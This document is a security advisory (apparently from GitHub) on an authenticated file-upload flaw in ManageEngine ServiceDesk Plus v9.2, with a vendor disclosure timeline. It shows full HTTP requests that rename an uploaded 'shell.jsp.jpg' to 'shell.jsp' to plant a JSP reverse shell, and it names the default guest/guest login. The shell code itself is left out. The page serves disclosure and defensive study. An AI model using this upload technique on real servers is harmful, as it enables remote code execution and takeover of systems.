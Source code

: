 # manageeningefileupload


Exploit Title: Authenticated Remote Code Execution via File Upload Vulnerability in ManageEngine ServiceDesk Plus (Authenticated)


Date: 14-Nov-2016


Discovered by Omer Alper Karakus (omeralperkarakus[at]gmail.com), Abdullah Sinan Sekerci (lpthread999[at]gmail.com), Anil Aytac (4nl[at]aytac.email), Asli Koksal (koksal.a[at]gmail.com), STM


Affected Product: ManageEngine ServiceDesk Plus


Tested on: v9.2 build number 9232


File upload vulnerability can only be exploited by an authenticated user which can also be any low privileged user like guest (default account: u:guest/p:guest)
This vulnerability can be exploited by uploading a JSP file instead of image file. Since the file extension has been checked on the client side, it is possible to upload a jsp file which contains a reverse shell by intercepting the request and changing the file extension from .jsp.jpg to .jsp.

<pre>
REQUEST:
===========================================================================================
POST /jsp/UploadImage.jsp HTTP/1.1
Host: 192.168.56.142:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.142:8080/WorkOrder.do?1479198413617&
Cookie: JSESSIONID=FE6E5837539BFDE8DA78680F00B251A2; JSESSIONIDSSO=B469F14D393E3113D28896A41F79B0D8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------229512600118535
Content-Length: 1902

-----------------------------229512600118535
Content-Disposition: form-data; name="img_file"; filename="shell.jsp.jpg"
Content-Type: image/jpeg

{...JSP reverse shell code...}

-----------------------------229512600118535
Content-Disposition: form-data; name="zereqid"


-----------------------------229512600118535
Content-Disposition: form-data; name="Module"

WorkOrder
-----------------------------229512600118535--
</pre>

<pre>
EDITED REQUEST:
===========================================================================================
POST /jsp/UploadImage.jsp HTTP/1.1
Host: 192.168.56.142:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.142:8080/WorkOrder.do?1479198413617&
Cookie: JSESSIONID=FE6E5837539BFDE8DA78680F00B251A2; JSESSIONIDSSO=B469F14D393E3113D28896A41F79B0D8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------229512600118535
Content-Length: 1902

-----------------------------229512600118535
Content-Disposition: form-data; name="img_file"; filename="shell.jsp"
Content-Type: image/jpeg

{...JSP reverse shell code...}

-----------------------------229512600118535
Content-Disposition: form-data; name="zereqid"


-----------------------------229512600118535
Content-Disposition: form-data; name="Module"

WorkOrder
-----------------------------229512600118535--
</pre>
<pre>
After a succesful request, the response shows us the location of our reverse shell file:
RESPONSE
===========================================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 528
Date: Tue, 15 Nov 2016 08:27:55 GMT
Connection: close
Server: -
		<script lang="JavaScript" type="text/JavaScript">
  		var formName = parent.document.getElementById("FORMNAME").value;
		var opts = parent.document.forms[formName].INLINEIMAGES.options;
		var imgName = "1479198475119.jsp";
		var option = new Option(imgName, imgName);
		option.selected = true;
		opts[opts.length] = option;
  		//alert("/inline/"+"WorkOrder"+"/"+"4"+"/"+"1479198475119.jsp");
  		parent.ZE.activeEditor.previewImage("/inline/"+"WorkOrder"+"/"+"4"+"/"+"1479198475119.jsp");//No i18n
		</script>
</pre>		
		
<pre>
Timeline
======
 
15-Nov-2016 – Notification to Vendor
18-Nov-2016 – Response from Vendor
01-Dec-2016 - Issue has been fixed by vendor https://www.manageengine.com/products/service-desk/readme-9.2.html
</pre>
